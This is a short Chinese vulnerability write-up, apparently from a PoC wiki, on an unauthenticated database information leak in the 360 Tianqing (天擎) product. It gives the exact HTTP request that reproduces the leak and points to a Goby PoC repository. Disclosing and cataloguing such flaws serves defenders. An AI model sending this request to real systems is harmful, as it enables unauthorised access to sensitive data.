 # 天擎 数据库信息泄露漏洞

## 漏洞描述

天擎 存在未授权越权访问，造成敏感信息泄露

## 漏洞影响

> [!NOTE]
>
> 天擎

## 漏洞复现

```
GET /api/dbstat/gettablessize HTTP/1.1
```

![](http://wikioss.peiqi.tech/vuln/tq-2.png)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> 360_Tianqing_database_information_disclosure

![](http://wikioss.peiqi.tech/vuln/tq-3.png)